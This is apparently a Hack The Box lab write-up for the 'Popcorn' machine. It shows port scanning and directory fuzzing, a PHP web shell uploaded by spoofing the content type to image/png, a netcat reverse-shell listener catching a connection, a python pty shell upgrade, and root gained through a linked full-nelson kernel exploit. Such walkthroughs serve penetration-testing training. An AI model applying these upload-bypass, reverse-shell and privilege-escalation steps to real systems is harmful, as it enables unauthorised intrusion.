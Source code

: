 ```yaml
---
image: /assets/img/popcorn/popcorn.png
layout: post
title: Porncorn
date: 2020-10-7 00:00:01 +5:30
categories: [Hackthebox, Medium]
tags: [torrent, web, upload] # add tag
---
```


## Walkthrough


```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  rustscan 10.10.10.6
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5
000'.  
Open 10.10.10.6:22
Open 10.10.10.6:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.10.6

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 21:09 IST
Initiating Ping Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Completed Ping Scan at 21:09, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:09
Completed Parallel DNS resolution of 1 host. at 21:09, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Discovered open port 80/tcp on 10.10.10.6
Discovered open port 22/tcp on 10.10.10.6
Completed Connect Scan at 21:09, 0.20s elapsed (2 total ports)
Nmap scan report for 10.10.10.6
Host is up, received syn-ack (0.20s latency).
Scanned at 2020-10-04 21:09:37 IST for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

###Port 80

Okay  let's dirbust the port80.

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ  

       /'___\  /'___\           /'___\        
      /\ \__/ /\ \__/  __  __  /\ \__/        
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
        \ \_\   \ \_\  \ \____/  \ \_\        
         \/_/    \/_/   \/___/    \/_/        

      v1.0.2
________________________________________________

:: Method           : GET
:: URL              : http://10.10.10.6/FUZZ
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
test                    [Status: 200, Size: 47067, Words: 2465, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
```

so i was unable to upload  a torrent file since is checking for it but successfully uploaded php by changing detail
since it is checking content type i changed it from application/x-php to image/png
and it was accepted as png

![port](/assets/img/popcorn/port80torrent.png)

![login](/assets/img/popcorn/login.png)

Alright we checked common passwords and didn't worked.<br/>
Let's check by reg user (admin user already exists).

![reg](/assets/img/popcorn/registered.png)

Okay let's check if uploading php is possible or not<br />
ughh we can only upload torrent file.
So looking into previously uploaded file we can upload screenshot to let's check by uploading a torrent file.

![upload](/assets/img/popcorn/uploaded.png)

Alright done now lets manupulate screenshot.

![uploadpng](/assets/img/popcorn/uploadedpng.png)

![png](/assets/img/popcorn/pngerror.png)

Hurrayy let's get shell

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444  
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 21:47:21 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ id
id
```

alright got www-data<br />
moving on to user

so we got george username<br />

![reg](/assets/img/popcorn/linuxexpliotsuggester.png)

![reg](/assets/img/popcorn/nelsonexp.png)

<https://github.com/lucyoa/kernel-exploits/blob/master/full-nelson/full-nelson> <br />
so i got root by running linux exploit suggester.

Rooted :)

